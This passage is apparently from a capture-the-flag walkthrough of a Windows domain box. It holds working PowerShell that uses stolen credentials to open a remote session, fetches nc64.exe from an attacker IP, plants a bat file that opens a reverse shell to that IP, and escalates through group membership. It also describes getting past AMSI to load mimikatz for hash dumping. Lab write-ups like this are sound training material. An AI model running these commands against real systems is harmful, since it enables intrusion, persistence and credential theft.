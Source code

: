 I got back to awallace and tried getting a reverse shell and the way we can do this as we have limited commands to execute we can't directly just make a request to our server to download nc or anything so instead we can use environmental variables so store any command also we can use (backtick)r(backtick)n for new line in a string

https://shellgeek.com/how-to-add-newline-to-string-or-variable/

Also throughout the box I used `Invoke-Command` with the computer name which was creating an adhoc session for remote powershell session on ATSSERVER which means that as soon as the commands get exited it would just clear our session meaning if we create environmental variables they will be removed so for creating a persistant session we can use `New-PSSession

https://devops-collective-inc.gitbook.io/secrets-of-powershell-remoting/session-management

Keeping awallace's credentials

```powershell
$sess = New-PSSession -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $credential
```

<img src="https://i.imgur.com/Zm93Pks.png"/>

```powershell

This file downloads the nc64.exe (make sure to get 1.12 as the defender removes the previous one)

Invoke-Command -Session $sess -ScriptBlock { $var1 = "powershell.exe -c Invoke-WebRequest 'http://10.10.14.61:3333/nc64.exe' -OutFile 'nc64.exe' `r`n "  }


This command will be executed after nc64.exe is downloaded

Invoke-Command -Session $sess -ScriptBlock { $var2 = "nc64.exe 10.10.14.61 5555 -e cmd.exe `r`n " }


This will write the values of both variables in the bat file

Invoke-Command -Session $sess -ScriptBlock { Set-Content -Path "C:\Program Files\keepmeon\uwu.bat" -Value $var1,$var2 }
```

<img src="https://i.imgur.com/qQmGrR1.png"/>


<img src="https://i.imgur.com/YFyz3Id.png"/>

Since `lhopkins` has rights to add members in Site_admin group we can him in this group which has the same privilege as Domain Admins group

<img src="https://i.imgur.com/id4scsz.png"/>

Here we can't just use mimikatz powershell script to dump hashes because of AMSI but we can bypass it by using `Invoke-OneShot` script which will import mimikatz at the same time 

https://gist.github.com/pich4ya/e93abe76d97bd1cf67bfba8dce9c0093
